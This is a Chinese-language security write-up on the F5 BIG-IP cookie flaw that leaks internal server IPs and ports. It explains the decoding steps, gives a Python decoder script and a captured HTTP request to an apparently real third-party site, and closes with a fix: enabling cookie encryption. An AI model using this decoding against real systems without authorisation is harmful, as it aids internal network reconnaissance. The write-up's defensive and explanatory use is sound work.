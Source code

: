 # F5 Big-IP Cookie内网IP信息泄漏
## 简介
> BIG-IP是对负载均衡的实现，主要通过Virtual Server、iRules、Pool、Node、Monitor和Persistent（会话保持）实现。BIGip在实现会话保持机制时会在用户首次发起请求时，会为用户设置一个cookie，即服务端会添加set-cookie响应头头（比如：Set-Cookie: BIGipServerapp-enterprise-ebank-pool=2588125376.31523.0000）。后续的请求会判断并使用这个cookie值，服务端解码该cookie并使用服务器。

**漏洞危害比较低，危害主要体现在可以为内网渗透提供必要的信息，如IP地址段信息等。**

## 漏洞原理

```
F5中的cookies格式如下：
BIGipServer <pool name> = <编码服务器IP>.<编码服务器端口> .0000
从中我们可以得知一下信息：
BIGipServer - 我们现在知道服务器在F5 BigIP设备后面。
<pool name> - F5上配置的池名称。
<编码服务器IP> - 进行编码的服务器的真实IP。
<编码服务器端口> - 进行编码的服务器的真实端口。
```
下面我们来还原一下这个算法：
以这个为例：`BIGipServerapp-enterprise-ebank-pool=2588125376.31523.0000`
拿出值：2588125376
第一步：将该10进制值转换为16进制(得到一个8位的值，如果不够8位，前面补0)
```
9a43a8c0
```

第二步：将这个8位的值分为四段
```
9a 43 a8 c0
```

第三步：dao'zhi顺序将每段数字分别转换成10进制，分别得到4个数字
```
c0 → 192
a8 → 168
43 → 67
9a → 154
```

第四步：得到服务器真实内网ip：192.168.67.154

```python
import struct
import sys

def decode(cookie_value):
     (host, port, end) = cookie_value.split('.')
     (a, b, c, d) = [ord(i) for i in struct.pack("<I", int(host))]
     p = [ord(i) for i in struct.pack("<I", int(port))]
     port = p[0]*256 + p[1]
     print "%s.%s.%s.%s:%s" % (a,b,c,d,port)
if len(sys.argv) != 3:
     print "Usage: %s input_type encoded_string" % sys.argv[0]
     print "-c cookie value"
     print "-f File Name containing cookie values on each linen"
     print "ex. %s -c 487098378.24095.0000" % sys.argv[0]
     print "ex. %s -f file.txt" % sys.argv[0]
     exit(1)
if sys.argv[1] == "-c":
     cookie_text = sys.argv[2]
     decode(cookie_text)
if sys.argv[1] == "-f":
     file_name = sys.argv[2]
     with open(file_name,"r") as f:
          for x in f:
               x = x.rstrip()
               if not x: continue
               decode(x)
```

## 利用
rabid工具可以解BigIP的cookie，以此获取内网ip或者真实ip地址。这款工具名叫rabid，是ruby语言编写，支持4种cookie格式。
github地址：https://github.com/Orange-Cyberdefense/rabid

```http
GET http://htwxclaim.pc.ehuatai.com/web-console/ HTTP/1.1
Host: htwxclaim.pc.ehuatai.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://htwxclaim.pc.ehuatai.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: BIGipServershangxianyidong=1443234058.36895.0000
Connection: close
```

![](media/16208263887101/16208264788337.jpg)


```
Cookie: BIGipServershangxianyidong=1443234058.36895.0000
```
利用工具`rabid`进行F5 BigIP解码，可以获取真实内网IP地址，如下：
![](media/16208263887101/16208264238123.jpg)

## 修复方案
在F5设备中，设置cookie加密方法。
![解决1](media/16218346928127/%E8%A7%A3%E5%86%B31.png)

在创建新HTTP配置文件部分中设置
![解决2](media/16218346928127/%E8%A7%A3%E5%86%B32.png)

返回到服务器中应用创建的自定义HTTP配置文件
![解决3](media/16218346928127/%E8%A7%A3%E5%86%B33.png)

做好以上设置后，再来查看数据包中的cookie已使用AES加密，并使用base64进行了编码。
![解决4](media/16218346928127/%E8%A7%A3%E5%86%B34.png)

